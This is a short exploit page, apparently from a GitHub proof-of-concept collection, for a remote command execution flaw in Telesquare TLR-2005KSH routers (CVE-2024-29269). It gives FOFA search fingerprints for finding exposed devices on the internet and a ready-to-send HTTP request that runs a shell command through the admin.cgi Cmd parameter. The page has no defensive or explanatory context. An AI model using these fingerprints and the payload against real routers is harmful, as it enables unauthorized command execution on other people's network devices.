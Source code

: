 ## Telesquare路由器RCE(CVE-2024-29269)

## fofa
```
title="Login to TLR-2005KSH"
app="TELESQUARE-TLR-2005KSH"
```

## poc
```
GET /cgi-bin/admin.cgi?Command=sysCommand&Cmd=id HTTP/1.1
Host: x.x.x.x:8085

```

![image](https://github.com/wy876/POC/assets/139549762/3fc91aca-15c0-41e7-94b0-06954993c86b)
